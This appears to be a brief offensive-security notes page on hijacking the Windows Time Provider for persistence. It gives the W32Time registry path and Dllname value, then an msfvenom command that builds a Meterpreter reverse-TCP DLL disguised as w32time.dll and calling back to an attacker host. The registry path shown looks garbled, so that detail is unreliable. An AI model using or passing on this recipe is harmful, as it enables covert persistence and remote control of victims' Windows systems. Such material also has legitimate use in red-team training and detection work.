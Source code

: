 # Hijacking Time Provider

time providers retrieve accurate time stamps from hardware or the network, and output time providers provide time stamps to other clients on the network

### Registry Path

HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\W32Time\TimePNtpServer\
Dllname  = %systemroot%\system32\w32time.dll

### generate malicious payload

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.46 LPORT=443 -f dll > w32time.dll
```
